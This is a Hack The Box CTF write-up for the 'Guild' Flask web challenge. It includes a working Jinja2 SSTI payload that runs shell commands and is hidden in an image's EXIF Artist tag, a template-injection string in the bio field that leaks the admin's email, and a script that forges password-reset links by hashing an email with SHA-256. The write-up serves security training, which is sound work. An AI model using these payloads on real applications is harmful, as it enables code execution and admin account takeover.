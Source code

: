 # Hack The Box CTF Writeup - Guild


## Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

## Vulnerabilities and Exploitation
### 1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
```
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
```
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.
<img src="https://raw.githubusercontent.com/BharathRam125/CTF-writeups/main/HTB-CTF-Tryout2024/Guild/images/upload.png">
Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.

### 2. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.

<img src="https://raw.githubusercontent.com/BharathRam125/CTF-writeups/main/HTB-CTF-Tryout2024/Guild/images/profile.png">

<img src="https://raw.githubusercontent.com/BharathRam125/CTF-writeups/main/HTB-CTF-Tryout2024/Guild/images/bio.png">

### 3. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"http://<ip>:<port>/changepasswd/{hashed}"

print("Reset Link:", reset_link)
```

### Visit the reset link, set a new password, and gain access to the admin account.
### Then verify the uploaded image
<img src="https://raw.githubusercontent.com/BharathRam125/CTF-writeups/main/HTB-CTF-Tryout2024/Guild/images/flag.png">


###Steps to Exploit:
1. Craft a payload image and upload
2. Inject script in bio to reveal admin's email
3. forgot password using admin's email
4. Generate the password reset link using the admin's email
5. Reset the admin password using the generated password reset link.
6. Log in as admin and verify the malicious image.
7. The injected payload in the EXIF "Artist" tag will execute and display the flag.
